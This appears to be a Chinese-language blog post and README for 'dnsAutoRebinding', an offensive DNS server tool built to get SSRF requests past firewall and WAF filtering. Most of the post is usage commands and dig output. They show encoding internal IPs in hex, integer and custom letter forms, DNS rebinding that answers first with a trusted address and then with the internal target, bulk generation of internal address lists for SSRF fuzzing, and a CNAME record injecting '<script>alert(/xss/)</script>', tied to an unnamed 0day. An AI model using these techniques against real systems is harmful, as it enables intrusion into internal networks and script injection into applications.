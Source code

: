 ```yaml
---
layout: post
title: Dns Auto Rebinding
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf时难免会被防火墙拦截恶意返回值，使用过xip.io但效果一般。项目地址：
<a target="_blank" href="https://github.com/Tr3jer/dnsAutoRebinding">Github</a>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ssrf、ssrf内网地址fuzz、dns二次rebinding、支持ipv4/ipv6、支持ip地址转换码、dns记录污染(文末一个0day为例)。脑图在脑子里，懒得画了。

support Record Type and Encoding：

```
MX = ipv4/ipv6/hex
A = ipv4/en/int/hex
AAAA = ipv6/int/hex
CNAME = ipv4/ipv6/hex
```

配置监听服务器example.com：

| record type | record | record value |
| --- | --- | --- |
| A | ns | server ip |
| NS | test | ns.example.com |

> sudo pip install ipaddr

修改lib/config.conf：
maindomain = test.example.com.
注意根地址.要加

```
Usage: sudo python main.py {Options}

Options:
  -h, --help            show this help message and exit
  -t 300, --TTL=300     ttl value , 0 By Default
  -y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX
                        Record Type , A By Default
  -e int/hex/en, --Encoding=int/hex/en
                        Record Encoding , None By Default
  -r, --Rebinding       The Second Time Query Return Target Ip
  -p "<script>alert(/xss/)</script>", --payload="<script>alert(/xss/)</script>"
                        Specified Record , Support CNAME/MX

```

-y选项指定以什么记录类型返回：

`-y A/AAAA/CNAME/MX, --Type=A/AAAA/CNAME/MX Record Type , A By Default`

-t选项指定TTL值：

`-t 300, --TTL=300     ttl value , 0 By Default`

直接A记录返回ipv4地址：

`sudo ./main.py`

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50359
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		227	IN	NS	ns.example.com.
```

server:
`[21:54:16] client ip:44486 => A => 192.168.1.1.test.example.com.`

hex编码：

`sudo ./main.py -e hex`

```
➜  ~ dig 31302e302e302e31.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 31302e302e302e31.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1585
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;31302e302e302e31.test.example.com.	IN	A

;; ANSWER SECTION:
31302e302e302e31.test.example.com. 0 IN	A	10.0.0.1

;; AUTHORITY SECTION:
test.example.com.		600	IN	NS	ns.example.com.
```

server:
`[22:00:42] client ip:30150 => A => 31302e302e302e31.test.example.com.`

int编码：

`sudo ./main.py -e int`

```
➜  ~ dig 3232235777.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 3232235777.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 18066
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;3232235777.test.example.com.	IN	A

;; ANSWER SECTION:
3232235777.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		456	IN	NS	ns.example.com.
```

server:
`[22:03:00] client ip:5240 => A => 3232235777.test.example.com.`

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;因为waf会识别出内网地址才用的上本项目，那么waf大可识别进制转换这种，所以要自己写个地址转换方法：

num to en:

```
./lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]
bjckbgikbkb
```

`sudo ./main.py -e en`

```
➜  ~ dig bjckbgikbkb.test.example.com

; <<>> DiG 9.8.3-P1 <<>> bjckbgikbkb.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5115
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;bjckbgikbkb.test.example.com.	IN	A

;; ANSWER SECTION:
bjckbgikbkb.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		20	IN	NS	ns.example.com.
```

server:
`[22:10:22] client ip:8434 => A => bjckbgikbkb.test.example.com.`


dns二次rebinding:
```
sudo ./main.py -r
Input Safe Ip? [Address/Req By Default]8.8.8.8
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;选择性输入目标信任的地址，比如在ssrf时防火墙在验证dns返回值是否存在于白名单。默认为发起请求的地址。(记得特殊情况需要指定记录类型)


第一次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59544
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	8.8.8.8

;; AUTHORITY SECTION:
test.example.com.		461	IN	NS	ns.example.com.
```

第二次：

```
➜  ~ dig 192.168.1.1.test.example.com

; <<>> DiG 9.8.3-P1 <<>> 192.168.1.1.test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 45312
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;192.168.1.1.test.example.com.	IN	A

;; ANSWER SECTION:
192.168.1.1.test.example.com. 0	IN	A	192.168.1.1

;; AUTHORITY SECTION:
test.example.com.		501	IN	NS	ns.example.com.
```

dns记录污染：

`sudo ./main.py -p "<script>alert(/xss/)</script>" -y CNAME`

```
➜  ~ dig test.example.com

; <<>> DiG 9.8.3-P1 <<>> test.example.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 5073
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 0

;; QUESTION SECTION:
;test.example.com.			IN	A

;; ANSWER SECTION:
test.example.com.		0	IN	CNAME	<script>alert\(/xss/\)</script>test.example.com.
```

![](http://pfr2vvlbk.bkt.clouddn.com/0day.png)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;这个怎么玩取决于你的小脑袋瓜的脑回路了。如果防火墙还要验证是否为信任地址的话修改lib/common.py：

```
elif payload != 'None' and payload.find(mainDomain) == -1:
    record = payload + "信任地址."
```

ipListBuild:
批量生成网段地址，选择性编码，适合ssrf内网地址fuzz。

```
python lib/common.py 192.168.1.1

1. Single IP Covert For En
2. Build IP List
[+] [1 By Default/2]2
[+] Please Input Segment Length [24 By Default]
[+] Please Input Encoding ['ipv4' By Default]hex
[+] Please Input Server Root Address [test.example.com By Default]
[+] Stored in the 20170625223912_test_example_com_hex.txt
[root@VM_34_252_centos dnsAutoRebinding]# head -n 5 20170625223912_test_example_com_hex.txt
3139322e3136382e312e31.test.example.com
3139322e3136382e312e32.test.example.com
3139322e3136382e312e33.test.example.com
3139322e3136382e312e34.test.example.com
3139322e3136382e312e35.test.example.com
```


